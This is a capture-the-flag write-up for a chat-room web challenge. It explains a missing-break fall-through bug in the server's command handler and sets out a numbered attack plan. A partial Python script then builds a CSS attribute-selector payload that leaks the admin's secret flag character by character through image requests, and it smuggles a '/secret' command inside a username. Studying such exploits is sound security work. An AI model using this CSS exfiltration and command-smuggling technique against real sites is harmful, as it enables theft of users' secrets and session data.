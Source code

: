We have a long switch-case block here, but there is no `break` anywhere!
Handling a single action does not stop the execution flow, it just falls through.
This means if packet `/name xx /ban yy /secret zz` comes to the server, all of those commands will get executed!

If we now check how the ban command is issued by admin on the client side:

```javascript
send(`/ban ${name}`);
```

We can see that we can easily set a special name which contains `/secret something; domain=gooe.com` string in it, and if admin bans such user, he will automatically issue `/secret` command.

This is the reason why it worked for so many teams. 
It had nothing to do with forcing admin to load a style from `/room/{room_id}/send?name=admin&msg=/secret xx` when banning a user, but simply the ban command contained the `/secret xx` string, and thus the command got executed by the handler on server side.

## Our attack approach at this point is quite clear:

1. Create a user named `/secret something; domain=gooe.com`
2. Create a user with CSS exfiltration name.
3. Place one more user on the channel, to listen for flag characters.
4. Call admin via `/report`
5. Send `dog` message from the first user, get him banned and force admin to issue `/secret` command
6. Send `dog` message from the second user, get him banned and force admin to leak first character of the flag

We can then repeat those steps for 2nd, 3rd and next flag characters.
We've made a semi-automatic script for this, which required human intervention to collect the recaptcha token to call admin:

```python
import time

from requests import get
from requests import session

FLAG_CHARSET = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&()*+,-./:;<=>?@[\\]^_|~ '
CSS_HACK = """span[data-secret^={letter} i]{{background: url(/room/{room_id}/send?name=admin&msg={letter})}}"""
ROOM_ID = 'fe1fc600-c41b-454f-85eb-e5f03da8b435'
URL = 'https://cat-chat.web.ctfcompetition.com/room/{room_id}/'.format(room_id=ROOM_ID)


def send_message(session, name, message):
    return session.get(URL + 'send', params={'name': name, 'msg': message}, headers={'Referer': URL})


def change_name(session, new_name):
    return send_message(session, 'python_bot', "/name %s" % new_name)


def main():
    flag_payload = '/name a i]{}]'
    flag_payload += ''.join([CSS_HACK.format(room_id=ROOM_ID, letter=x) for x in FLAG_CHARSET])
    flag_payload += 'span[data-name^=whatever'
    captcha = raw_input('captcha code:')
    r = get(URL + 'send', params={'name': 'bzorp', 'msg': '/report %s' % captcha}, headers={'Referer': URL})
    time.sleep(1)
    cookier = session()
    cookier.get(URL)
```